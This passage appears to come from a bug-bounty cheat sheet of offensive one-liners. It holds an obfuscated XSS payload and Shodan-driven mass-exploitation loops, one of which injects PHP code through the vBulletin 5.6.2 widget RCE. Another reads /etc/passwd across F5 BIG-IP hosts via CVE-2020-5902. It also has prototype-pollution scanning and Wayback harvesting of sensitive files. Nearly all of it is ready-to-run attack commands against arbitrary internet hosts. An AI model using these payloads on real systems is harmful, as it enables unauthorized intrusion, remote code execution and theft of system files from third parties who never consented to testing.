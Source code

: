     ```js
    %3Cx%20y=1%20z=%271%26apos;%27onclick=self[`al`%2B`ert`](1)%3E%23CLICK%20MEE
    ```

    Try here

    ```
    https://example.com/?s=%20<x%20y=1%20z=%271%26apos;%27onclick=self%5B%60al%60%2B%60ert%60%5D(1)>%23CLICK%20MEE
    ```

    

### Remote Code Execution (RCE)

- vBulletin 5.6.2 - 'widget_tabbedContainer_tab_panel' @Madrobot_

    ```bash
    shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;
    ```

    

### Prototype Pollution

- @R0X4R

    ```bash
    subfinder -d target.com -all -silent | httpx -silent -threads 300 | anew -q alive.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' alive.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
    ```

    

### OTHERS

- Removes duplicate URLs and parameter combinations @laughface809

    ```bash
    cat urls.txt |qsreplace -a
    ```

- Company Sensitive Data in Internet Web Archive @3nc0d3dGuY 

    ```bash
    cat subdomains.txt | waybackurls | tee waybackurls.txt | grep -E "\\.xls|\\.xlsx|\\.json|\\.pdf|\\.sql|\\.doc|\\.docx|\\.pptx|\\.tar|\\.rar|\\.zip|\\.7z|\\.gz"
    ```

    if above may not work try to change every `\\` to `\`

- CVE-2020-5902 @Madrobot_

    ```bash
    shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
    ```
